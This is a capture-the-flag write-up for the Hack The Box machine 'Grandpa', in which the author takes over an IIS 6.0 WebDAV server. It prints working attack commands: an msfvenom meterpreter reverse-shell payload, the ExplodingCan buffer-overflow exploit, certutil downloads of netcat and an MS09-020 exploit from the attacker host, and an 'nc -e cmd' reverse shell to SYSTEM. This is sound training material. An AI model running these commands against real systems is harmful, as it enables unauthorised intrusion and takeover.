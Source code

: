 # Grandpa

![image](https://user-images.githubusercontent.com/10210108/79370442-a872d380-7f20-11ea-9bee-96540fa480e8.png)

## Overview

Granpda is a Windows 2003 box running IIS 6.0 with webdav enabled. IIS was vulerable to the ScStoragePathFromUrl Remote Buffer Overflow. I used an NSA exploit that was leaked by the Shadow Brokers called ExplodingCan to get intial foothold. From there I used the windows exploit suggester tool and determined that the box was vulnerable to MS09-020 which allowed me to set up a meterpreter reverse shell and get a callback as 'nt authority\system'

## Enumeration

**Software**
* Microsoft(R) Windows(R) Server 2003, Standard Edition
* IIS 6.0
* ASP.NET 1.1.4322

**Port Scan**
```
nmap -vv -Pn -sT -A --osscan-guess -p- -oN /mnt/data/boxes/grandpa/_full_tcp_nmap.txt
```

* 80/tcp

![image](https://user-images.githubusercontent.com/10210108/81748967-c6c4e400-9478-11ea-9483-32cc75edc2f1.png)

**Nikto Scan**
```
nikto -h 10.10.10.14
```
![image](https://user-images.githubusercontent.com/10210108/81599563-a1f84000-9396-11ea-845d-99a96104b8ab.png)

**Davtest**

```
davtest -url http://10.10.10.14
```

![image](https://user-images.githubusercontent.com/10210108/81748823-7cdbfe00-9478-11ea-838d-2c8d9d679566.png)


## Steps (user)

Browsing to http://10.10.10.14 shows the default "Under Contruction" page. I ran a Nikto which showed some potential vulnerabilities but none of them applied. Gobuster also did not turn up anything useful. 

According to the nmap scan this server was running webdav so I ran a scan with a [davtest](https://tools.kali.org/web-applications/davtest) which is a tool that tests uploading different executable file types. All the tests failed so I moved on.

> Web Distributed Authoring and Versioning ([WebDAV](https://en.wikipedia.org/wiki/WebDAV)) is an extension to the HTTP protocol that allows creating, moving, copying, and deleting files/resources on remote web servers.

Internet Information Services 6.0 was released with Windows Server 2003 and is really old at this point. I ran a search in searchsploit for IIS 6.0 and there were a few results. 

![image](https://user-images.githubusercontent.com/10210108/81601942-bc7fe880-9399-11ea-965b-039513823121.png)

I didn't have any luck with "WebDAV 'ScStoragePathFromUrl' Remote Buffer Overflow" (41738.py). I swapped out the shellcode in the script for my own and I got a shell but it immediately died. I did an internet search for other exploits that might exist for this vulnerability and I came across explodingcan.

> https://github.com/danigargu/explodingcan

I generated a staged meterpreter payload with msfvenom because the unstaged payload without meterpreter was calling back but immediately dropping the connection (like 41738.py).

I generated a payload with MSFVenom and output a file
```
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.14.22 lport=4200 -f raw -e x86/alpha_mixed > shellcode
```

I fired up metasploit and set up a meterpreter listener
```
msfdb run
set exploit/multi/handler
set payload 
set lhost 10.10.14.22
set lport 4200
set payload windows/meterpreter/reverse_tcp
run
```

From my box I ran the exploitcan script specifying the target IP and the name of the file that I saved the shellcode to.

```
explodingcan.py http://10.10.10.14 shellcode
```

I received a callback and shell as 'nt authority\network service'

![image](https://user-images.githubusercontent.com/10210108/81610251-37033500-93a7-11ea-92f0-a0644f249bfd.png)

## Steps (root/system)

I used Windows Exploit Suggester to look for kernel exploits to escalate privileges. This tool requires the output of the systeminfo command which I pasted to a file called "sysinfo.txt"

> [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester) github repo.

I ran the systeminfo command on the target system, copied the output to sysinfo.txt, and fed it into wes.py
```
./windows-exploit-suggester.py -l --database 2019-11-17-mssb.xls --systeminfo sysinfo.txt
```

![image](https://user-images.githubusercontent.com/10210108/81613484-9152c480-93ac-11ea-9cfe-fac6185a8b23.png)

This box appeared to be vulnerable to MS09-020 which can be downloaded from here https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6.zip. 

> This may go without saying but use caution when downloading/using exploits from sites like this where you can't view the source code to see what it's doing. 

I downloaded a copy of the exploit and netcat into my working directory, and started up a python http server.

```
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS09-020/MS09-020-KB970483-CVE-2009-1535-IIS6.zip
unzip MS09-020-KB970483-CVE-2009-1535-IIS6.zip
cd MS09-020-KB970483-CVE-2009-1535-IIS6
cp ~/tools/windows-binaries/nc.exe .
python3 -m http.server 80
```

On the target I used certutil to download netcat and the exploit to the box

```
cd c:\windows\temp
certutil -urlcache -split -f http://10.10.14.22/IIS6.0.exe
certutil -urlcache -split -f http://10.10.14.22/nc.exe
```

I then set up a netcat listener (rlwrap nc -lvnp 4201) and ran the exploit on the target box specifying netcat and the host and IP address of my box.

```
iis6.exe "nc -e cmd 10.10.14.22 4201"
```

I received shell as 'nt authority\system'

![image](https://user-images.githubusercontent.com/10210108/81615769-23100100-93b0-11ea-94a2-61504684d8e2.png)

